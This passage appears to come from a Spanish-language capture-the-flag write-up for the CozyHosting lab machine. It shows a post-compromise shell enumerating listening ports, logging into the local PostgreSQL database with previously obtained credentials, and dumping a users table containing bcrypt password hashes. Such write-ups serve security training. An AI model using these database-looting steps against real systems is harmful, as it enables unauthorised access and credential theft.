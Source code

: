 ```bash
app@cozyhosting:/$ netstat -ano | grep LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      off (0.00/0/0)
app@cozyhosting:/$ which psql
/usr/bin/psql
```

Accedeeremos al SQL a través de las credenciales obtenidas. Verificamos de la existencia de diferentes bases de datos, las cuales parece llamarnos más la atención la de `cozyhosting`.

Revisaremos las tablas de la base de datos mencionada, entre las tablas encontradas nos encontramos con una tabla `users` que disponía de usuarios y credenciales en formato hash.

```sql
app@cozyhosting:/$ psql -h localhost -p 5432 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \list
                                                                      List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \connect cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

